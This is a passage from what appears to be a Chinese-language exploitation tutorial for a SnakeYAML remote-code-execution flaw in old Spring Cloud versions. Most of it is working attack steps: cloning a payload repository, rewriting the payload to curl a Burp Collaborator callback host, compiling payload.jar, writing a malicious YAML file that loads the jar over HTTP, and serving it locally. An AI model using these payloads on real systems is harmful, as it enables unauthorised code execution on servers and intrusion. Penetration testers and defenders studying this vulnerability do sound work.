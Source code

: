```plain
-H 'Content-Type: application/x-www-form-urlencoded'
```

2.x 的则是`{"name":"", "value":""}`,header 则为：

```plain
-H 'Content-Type: application/json'
```

- - -

#### **1.spring cloud SnakeYAML RCE**

```plain
cd springcloud-snakeyaml-rce
mvn spring-boot:run
```

> -   目标依赖的 `spring-cloud-starter` 版本 \\< 1.3.0.RELEASE
> 
> 现在最新版本 3.03，古老的洞了，基本很少遇到，遇到就是好用。

**(1) 制作 payload.jar 文件**

下载 payload

```plain
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload/src/artsploit
```

替换命令执行内容

```plain
sed -i "" 's/dig scriptengine.x.artsploit.com/curl c0dy0qcncknp8zpb5bir0jvt4kaayz.burpcollaborator.net/g' AwesomeScriptEngineFactory.java
```

编译

```plain
cd ../../
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf payload.jar -C src/ .
```

在该目录生成利用的 example.yml 文件，内容如下：

```plain
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:9091/payload.jar"]
  ]]
]
```

web 服务挂载

```plain
python3 -m http.server 9091
```

